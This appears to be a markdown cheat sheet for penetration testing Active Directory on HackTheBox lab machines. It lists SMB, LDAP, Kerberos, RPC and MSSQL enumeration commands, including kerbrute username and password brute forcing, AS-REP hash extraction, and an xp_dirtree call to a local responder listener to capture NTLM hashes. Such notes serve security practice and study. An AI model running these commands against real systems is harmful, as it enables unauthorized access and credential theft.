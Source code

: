 # Recon
## SMB
```sh
crackmapexec smb authority.htb
```
### SMBMAP
##### List shares
```sh
smbmap -H forest.htb
```
##### List all files in share
```sh
smbmap -R SHARENAME -H IP 
```
##### Download specific file
```sh
smbmap -R SHARENAME -H IP -A FILENAME -q 
```

### Crackmapexec
```sh
crackmapexec smb authority.htb --shares
```
##### enum smb shares/users
```sh
crackmapexec smb .htb --shares -u "" -p ""
crackmapexec smb .htb --users -u "" -p ""
```
##### anonymous authentication smb 
```sh
crackmapexec smb authority.htb --shares -u "anything" -p ""
```
##### access share without password
```sh
smbclient -N //authority.htb/SHARE -U "anything"
```
##### Access share with password
```sh
smbclient -N //authority.htb/SHARE -U "USER" --password 'PASS'
```
##### download all files from smb share
```sh
smb: \> prompt
smb: \> recurse ON
smb: \> mget *
```
##### List all users
```sh
crackmapexec smb forest.htb  -u '' -p '' --users
```

##### Enum Everything
```sh
crackmapexec smb 10.10.10.1 -u 'anonymous' -p '' --groups --local-groups --loggedon-users --rid-brute --sessions --users --shares --pass-pol
```

## LDAP
Try to login with LDAP creds on different services. Try ex: winRM.
To receive the LDAP credentials, set up a listener and check connection on ldap. The credentials are often passed in plaintext.
##### Enumerate Domain
```sh
crackmapexec ldap authority.htb -u 'USER' -p 'PASS' --trusted-for-delegation  --password-not-required --admin-count --users --groups
```
##### Nmap enum 
```sh
sudo nmap -n -sV --script "ldap* and not brute" -p 389 IP
```
##### Query LDAP with creds
```sh
ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'PASSWORD' -b "DC=support,DC=htb" "*"
```

## Kerberos
##### Nmap enum
```sh
nmap -p 88 --script=krb5-enum-users --script-args=krb5-enum-users.realm='manager.htb' IP
```
##### Bruteforce usernames
```sh
./kerbrute_linux_amd64 userenum --dc 10.129.105.163 -d manager.htb /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt
```
##### Bruteforce password
```sh
./kerbrute_linux_amd64 bruteuser --dc 10.129.38.49 -d htb.local /usr/share/wordlists/rockyou.txt mark
```
##### Get hashes for kerberoast
```sh
impacket-GetNPUsers htb.local/ -dc-ip 10.129.38.49 -usersfile usernames.txt -format hashcat -outputfile hashes.txt
```

### RPC
##### Anonymous login
```sh
rpcclient -U "" manager.htb
> enumdomusers
> enumdomgroups
> queryuser 0x45e
```
##### With creds
```sh
rpcclient -N -U "Operator%operator" manager.htb
```


### MsSQL
```sh
impacket-mssqlclient -dc-ip 10.129.105.163 -port 1433 manager.htb/Operator:operator@manager.htb -windows-auth

# start listener: sudo responder -I tun0
> xp_dirtree \\LOCAL_IP\uwu

> exec xp_dirtree 'C:\Users'
```


## Techniques 
https://hausec.com/2019/03/12/penetration-testing-active-directory-part-ii/


## After access has been established
